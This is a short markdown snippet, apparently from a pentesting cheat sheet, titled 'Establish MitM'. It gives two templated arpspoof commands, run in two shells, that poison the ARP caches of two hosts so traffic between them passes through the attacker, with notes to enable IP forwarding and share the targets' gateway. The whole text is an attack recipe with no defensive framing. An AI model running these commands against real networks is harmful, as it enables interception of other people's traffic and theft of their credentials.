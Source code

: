 # Establish MitM
```bash
# Ensure IP Forwarding is enabled

# Shell # 1 - Spoof Host B
sudo arpspoof -i <Interface Name> -t <Target IP Address Host A> <IP Address to Impersonate Host B>
# Shell # 2 - Spoof Host A
sudo arpspoof -i <Interface Name> -t <Target IP Address Host B> <IP Address to Impersonate Host A>
```

### Note: In order to be able to sniff packets using arpspoof, you will need to use the same default gateway used by your targets.